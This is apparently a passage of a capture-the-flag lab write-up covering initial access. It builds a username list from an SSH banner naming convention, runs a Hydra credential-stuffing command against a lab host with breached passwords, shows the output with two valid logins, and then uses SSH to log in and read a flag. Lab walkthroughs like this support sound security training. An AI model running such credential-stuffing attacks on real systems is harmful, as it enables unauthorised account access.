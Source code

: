 - Craft a credential stuffing attack using breached credentials and the observed naming convention (`f_last`).

---

## Initial Access (MITRE ATT&CK Outline)

| Technique ID                                                 | Name                | Tool(s) Used |
| ------------------------------------------------------------ | ------------------- | ------------ |
| [T1078](https://attack.mitre.org/techniques/T1078/)          | Valid Accounts      | Hydra, SSH   |
| [T1110](https://attack.mitre.org/techniques/T1110/004/)      | Credential Stuffing | Hydra        |

---

### Steps

**Crafting the Credential Stuffing Attack**

Make a `users.txt` list which reflects the naming convention found on the SSH Banner:  
Naming Convention: `f_lastName`
<details><summary>Example `users.txt`:</summary></details>  

With `users.txt` and the breached credentials list, initiate the credential stuffing attack:  

**Command**:
```bash
hydra -L users.txt -P breachedCreds.txt $ip ssh
```

**Output**:  
<PRE>
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-05 01:49:17  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 119 login tries (l:17/p:7), ~8 tries per task  
[DATA] attacking ssh://10.10.43.128:22/  
[22][ssh] host: 10.10.43.128   login: j_moore   password: **********  
[22][ssh] host: 10.10.43.128   login: m_brown   password: **********  
1 of 1 target successfully completed, 2 valid passwords found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-05 01:50:07  
</PRE>

---

**Gain Initial Foothold**

Use the newly found credentials to gain access to the target and retrieve the user flag.    

**Commands**:  
```bash
ssh j_moore@$ip  
cat /home/j_moore/userFlag.txt 
```

---
